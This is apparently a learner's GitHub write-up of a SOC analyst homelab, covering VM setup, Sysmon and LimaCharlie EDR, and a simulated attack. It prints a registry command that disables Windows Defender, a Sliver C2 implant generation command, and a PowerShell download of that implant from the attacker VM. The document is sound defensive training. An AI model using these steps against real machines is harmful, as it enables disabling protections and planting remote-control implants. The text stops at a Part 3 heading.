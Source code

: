 # So You Want to be a SOC Analyst
Link to the Project (https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

## Objective
1. Setting up and managing a SOC environment.

2. Understanding how to detect, analyze, and respond to cyber threats.

3. Developing and tuning detection rules to identify malicious activities.

4. Learning how to implement threat mitigation strategies.

### Skills Learned

1.SOC Environment setup

2.Threat Dectection and Analysis

3.Rule Creation and Tuning

4.Incident Response and Mitigation

5.YARA scanning

6.Threat Intelligence and reporting

### Tools Used
1. Virtualization Software

2. Security Information and Event Management (SIEM) tools

3. Network Monitoring 

4. YARA

5. Kali Linux 

## Steps
# PART 1 
The first step was to set up the virtual environment. For this project "VMware Workstation Pro" by Broadcom was the software used. 

Ubuntu Server 22.04.1 ISO was the version used because this version comes pre Installed with necessary packages to do this project.

The VM Workstation created had the following specs: 14GB Disk size, 2 CPU cores, and 2GB RAM.

After downloading and setting everything up, I encountered my first error. I had to make sure DNS and outbound pings are working.


## This is what it is supposed to look like


![Screenshot (3)](https://github.com/user-attachments/assets/2565610e-979d-446e-99b8-ef3b094732ad)


## This is what I got

![Screenshot (2)](https://github.com/user-attachments/assets/ec614aca-52e4-477e-9de6-83bddb195d7c)

Seeing the response I noticed that I did not add a name server. To resolve the issue I entered the following command: 


sudo nano /etc/resolv.conf 


This allowed me to add a name server. I entered in 8.8.8.8 because it refers to one of Googles public DNS servers.


![Screenshot (4)](https://github.com/user-attachments/assets/87f0b3ad-9bb7-47e8-8401-b5bd41c820c1)

it started to work after the change.

![Screenshot (5)](https://github.com/user-attachments/assets/fe241b07-600a-4d1a-9b74-11c7776b2dec)


This Unbuntu VM will act as an attacker. Now that everything is working, I started to set up the windows VM. 

The link for the windows VM was not working so I  settled for a windows 11 x64 VM. After setting everything up, I disabled windows defender.

![Screenshot (6)](https://github.com/user-attachments/assets/2da84f22-48ab-48e5-a58a-17c487c0eb7b)

Ran the command to permanently disable defender via registry: 

REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f 

![Screenshot (7)](https://github.com/user-attachments/assets/1193917a-3529-4f9f-92f0-ba7eb4135684)

Now in safe mode, change the 7 sevices from 3 to 4.

![Screenshot (8)](https://github.com/user-attachments/assets/98048272-b3fc-4804-a79e-123731245f17)

Exit safe mode and it should be defender free.

Next I had to Install Sysmon which is a analyst tool.

 ![Screenshot (9)](https://github.com/user-attachments/assets/048b935d-f6b8-402c-bcb3-13300d366bb1)


LimaCharlie EDR is next to download. I had a little hiccup here. I had to put Lc_sensor.exe before the command line. I also had to enter DIR command to make sure lc_sensor.exe was there. It'll give an error message if lc_sensor.exe is entered in before the downloaded executable.

![Screenshot (10)](https://github.com/user-attachments/assets/9b6e2b30-f9ef-49d2-ab4a-b85c0c0ae42d)

Next was back to the attack system. I had to download sliver Linux server binary and create a directory for the future steps.


![Screenshot (11)](https://github.com/user-attachments/assets/d40b7860-deff-4c72-8783-067de2f4313d)

# Part 2 
generating C2 payload is next. I opened sliver server and entered the following command to generate payload:

generate --http [Linux_VM_IP] --save /opt/sliver

I also entered the command "implants" to confirm the implant configuration

![Screenshot (14)](https://github.com/user-attachments/assets/6be2b68a-9a64-4246-9c1d-2d05de389dcb)

Then I went back to the windows VM to download the C2 payload. In the windows command I entered the following command:

IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe


![Screenshot (15)](https://github.com/user-attachments/assets/6df9c14b-8cd7-4b60-ae17-414003419d7c)

Next is to start the command and control session. I went to the linux VM and enetered the command "http" which is the listener. In the wiundows VM, enter the download location of the executable (C:\Users\User\Downloads\<your_C2-implant>.exe) and the linux VM will pick it up.


![Screenshot (17)](https://github.com/user-attachments/assets/413b4899-32a1-4bcc-a790-3b5ef7d3889c)

I entered the "use" command to interact with the C2 session. Now that the linux VM is linked with the Windows, I went to Lima charlie to examine the EDR telemetry and to see if the C2 implant was present.


![Screenshot (19)](https://github.com/user-attachments/assets/98a6d627-e8a9-426b-8eb5-4bf4c50ed02f)

I also observed the timeline that shows window event logs(WEL) and EDR telemetry (NETWORK_CONNECTIONS)


![Screenshot (20)](https://github.com/user-attachments/assets/57a508ca-8069-493c-a930-6a9290061431)

# PART 3


